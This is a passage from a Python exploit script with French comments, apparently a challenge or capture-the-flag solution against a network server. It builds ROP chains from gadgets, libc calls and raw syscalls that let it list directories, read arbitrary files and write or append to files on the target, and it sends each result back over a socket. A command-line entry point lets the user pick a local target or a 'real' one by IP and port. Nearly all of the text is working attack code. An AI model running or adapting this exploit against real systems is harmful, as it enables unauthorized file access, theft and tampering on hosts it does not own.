            # int getdents64(unsigned int fd, struct linux_dirent64 *dirp,
            #                unsigned int count);
            ropchain += POP_RSI + u64(ropchain_addr + len(ropchain) + 0x10 + 8 + 8)
            ropchain += STORE_RAX_TO_RSI
            ropchain += POP_RDI + u64(0)
            ropchain += POP_RSI + u64(ropchain_addr + rop_data_offset + 8)
            ropchain += POP_RDX + u64(0x4000)
            ropchain += POP_RAX + u64(217)
            ropchain += SYSCALL
    
            # Appelle send pour envoyer le résultat sur le descripteur de fichier 4,
            # qui correspond à t0
            ropchain += POP_RDI + u64(4)
            ropchain += POP_RSI + u64(ropchain_addr + rop_data_offset + 8)
            ropchain += POP_RDX + u64(0x4000)
            ropchain += POP_RCX + u64(0)
            ropchain += LIBC_SEND
            ropchain += LIBC_ABORT + b'\xcc' * 8
    
            assert len(ropchain) <= rop_data_offset
            ropchain += b'\0' * (rop_data_offset - len(ropchain))
            ropchain += rop_data
            self.exec_rop(ropchain)
            c = self.conns[0]
            if c.has_data(delay=10):
                data = c.sock.recv(8192)
                print("RECV %r" % (data.rstrip(b'\0')))
                # Décode les structures struct linux_dirent64
                while len(data) >= 20:
                    d_reclen, d_type = struct.unpack('<HB', data[16:19])
                    if d_reclen == 0:
                        break
                    assert d_reclen >= 20
                    d_name = data[19:d_reclen].rstrip(b'\0').decode('utf-8', 'replace')
                    print("%2d %r" % (d_type, d_name))
                    data = data[d_reclen:]
    
        def read(self, name):
            """Lit le fichier indiqué"""
            ropchain_addr = self.msg_addr + 0x28
    
            rop_data_offset = 0x800
            rop_data = name.encode('ascii') + b'\0'
    
            ropchain = ONLY_RET * 10
            ropchain += POP_RDI + u64(ropchain_addr + rop_data_offset)
            ropchain += POP_RSI + u64(0)
            ropchain += LIBC_OPEN
    
            ropchain += POP_RSI + u64(ropchain_addr + len(ropchain) + 0x10 + 8 + 8)
            ropchain += STORE_RAX_TO_RSI
            ropchain += POP_RDI + u64(0)
            ropchain += POP_RSI + u64(ropchain_addr + rop_data_offset)
            ropchain += POP_RDX + u64(0x4000)
            ropchain += POP_RAX + u64(0)  # read(int fd, void *buf, size_t count)
            ropchain += SYSCALL
    
            ropchain += POP_RDI + u64(4)
            ropchain += POP_RSI + u64(ropchain_addr + rop_data_offset)
            ropchain += POP_RDX + u64(0x4000)
            ropchain += POP_RCX + u64(0)
            ropchain += LIBC_SEND
            ropchain += LIBC_ABORT + b'\xcc' * 8
    
            assert len(ropchain) <= rop_data_offset
            ropchain += b'\0' * (rop_data_offset - len(ropchain))
            ropchain += rop_data
            self.exec_rop(ropchain)
            c = self.conns[0]
            if c.has_data(delay=10):
                data = c.sock.recv(8192)
                print("RECV %r" % data.rstrip(b'\0'))
    
        def write(self, name, content, do_append=True):
            """Ecrit le fichier indiqué"""
            ropchain_addr = self.msg_addr + 0x28
    
            rop_data_offset = 0x800
            filename_addr = ropchain_addr + rop_data_offset
            rop_data = name.encode('ascii') + b'\0'
            content_addr = ropchain_addr + rop_data_offset + len(rop_data)
            rop_data += content
            ok_addr = ropchain_addr + rop_data_offset + len(rop_data)
            rop_data += b'ok'
    
            ropchain = ONLY_RET * 10
            ropchain += POP_RDI + u64(filename_addr)
            # /usr/include/asm-generic/fcntl.h :
            # O_WRONLY=1, O_CREAT=0o100, O_TRUNC=0o1000, O_APPEND=0o2000
            ropchain += POP_RSI + u64(0o2101 if do_append else 0o1101)
            ropchain += POP_RDX + u64(0o777)
            ropchain += LIBC_OPEN
    
            ropchain += POP_RSI + u64(ropchain_addr + len(ropchain) + 0x10 + 8 + 8)
            ropchain += STORE_RAX_TO_RSI
            ropchain += POP_RDI + u64(0)  # overwritten
            ropchain += POP_RSI + u64(content_addr)
            ropchain += POP_RDX + u64(len(content))
            ropchain += POP_RAX + u64(1)  # write(int fd, const void *buf, size_t count)
            ropchain += SYSCALL
    
            ropchain += POP_RDI + u64(4)
            ropchain += POP_RSI + u64(ok_addr)
            ropchain += POP_RDX + u64(2)
            ropchain += POP_RCX + u64(0)
            ropchain += LIBC_SEND
            ropchain += LIBC_ABORT + b'\xcc' * 8
    
            assert len(ropchain) <= rop_data_offset
            ropchain += b'\0' * (rop_data_offset - len(ropchain))
            ropchain += rop_data
    
            assert len(ropchain) < 0x3f00  # Impose des contraintes de taille
            self.exec_rop(ropchain)
            c = self.conns[0]
            if c.has_data(delay=10):
                data = c.sock.recv(8192)
                print("RECV %r" % data.rstrip(b'\0'))
    
    
    def main():
        parser = argparse.ArgumentParser(description="Exploite un serveur")
        parser.add_argument('-i', '--ip', type=str)
        parser.add_argument('-p', '--port', type=int)
        parser.add_argument('--real', action='store_true')
        parser.add_argument('-l', '--ls', type=str)
        parser.add_argument('-r', '--read', type=str)
        args = parser.parse_args()
    
        # Détermine l'adresse IP et le port à utiliser en fonction des arguments
        tcpip_addr = LOCAL_ADDR
        if args.real:
            tcpip_addr = REAL_ADDR
        if args.ip:
            tcpip_addr = (args.ip, tcpip_addr[1])
        if args.port:
            tcpip_addr = (tcpip_addr[0], args.port)
    
        # Exécute le code
        e = Exploit(tcpip_addr)
        if args.ls:
            e.ls(args.ls)
        elif args.read:
            e.read(args.read)
        return e
    
    
    if __name__ == '__main__':
        main()
